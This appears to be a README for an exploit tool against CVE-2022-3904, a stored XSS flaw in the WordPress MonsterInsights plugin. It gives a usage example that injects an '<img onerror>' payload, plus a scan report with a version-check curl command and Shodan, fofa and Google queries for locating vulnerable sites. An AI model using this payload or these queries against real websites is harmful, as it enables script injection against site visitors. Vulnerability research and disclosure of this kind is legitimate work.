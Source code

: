 # CVE-2022-3904
CVE-2022-3904 MonsterInsights &lt; 8.9.1 - Stored Cross-Site Scripting via Google Analytics

Usage
---

```
usage: CVE-2022-3904.py [-h] -u URL -p PAYLOAD

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of wordpress site to exploit
  -p PAYLOAD, --payload PAYLOAD
                        Payload to Execute ensure it's an xss
```

Example
---

```
python3 CVE-2022-3904.py -u http://wordpress.lan -p "<img src=x onerror=alert(document.domain)>"
```



### MonsterInsights <= 8.9.0 - Unauthenticated Stored Cross-Site Scripting via Google Analytics (CVE-2022-3904:version) found on https://wordpress.lan/

----
**Details**: **CVE-2022-3904:version** matched at http://wordpress.lan/

**Protocol**: HTTP

**Full URL**: http://wordpress.lan/wp-content/plugins/google-analytics-for-wordpress/readme.txt

**Timestamp**: Tue Jul 11 10:51:09 +0000 UTC 2023

**Template Information**

| Key | Value |
| --- | --- |
| Name | MonsterInsights <= 8.9.0 - Unauthenticated Stored Cross-Site Scripting via Google Analytics |
| Authors | random-robbie |
| Tags | cve, wordpress, wp-plugin, google-analytics-for-wordpress, medium |
| Severity | medium |
| Description | The MonsterInsights plugin for WordPress is vulnerable to Stored Cross-Site Scripting via post titles and pages in versions up to, and including, 8.9.0 due to insufficient input sanitization and output escaping on those values. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page if they are able to successfully spoof a request to Google Analytics. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:L/I:L/A:N) |
| CVE-ID | [CVE-2022-3904](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2022-3904) |
| CVSS-Score | 5.40 |
| fofa-query | wp-content/plugins/google-analytics-for-wordpress/ |
| google-query | inurl:"/wp-content/plugins/google-analytics-for-wordpress/" |
| shodan-query | vuln:CVE-2022-3904 |


References: 
- https://wpscan.com/vulnerability/244d9ef1-335c-4f65-94ad-27c0c633f6ad
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&old=2797398%40google-analytics-for-wordpress&new=2797398%40google-analytics-for-wordpress&sfp_email=&sfph_mail=

**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36' 'http://wordpress.lan/wp-content/plugins/google-analytics-for-wordpress/readme.txt'
```
